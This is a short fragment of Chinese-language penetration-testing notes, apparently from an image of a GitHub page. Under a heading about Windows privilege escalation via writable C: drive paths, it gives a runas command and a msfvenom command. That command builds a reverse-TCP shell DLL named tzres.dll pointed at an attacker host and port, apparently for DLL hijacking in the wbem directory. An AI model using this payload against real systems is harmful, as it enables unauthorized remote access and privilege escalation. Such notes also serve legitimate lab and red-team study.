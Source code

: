 # GUI下的身份切换

```
runas /user:backupadmin cmd
```

# C盘写入提权

```
systeminfo
c:\windows\system32\wbem
tzres.dll


msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.154 LPORT=135 -f dll -o tzres.dll
```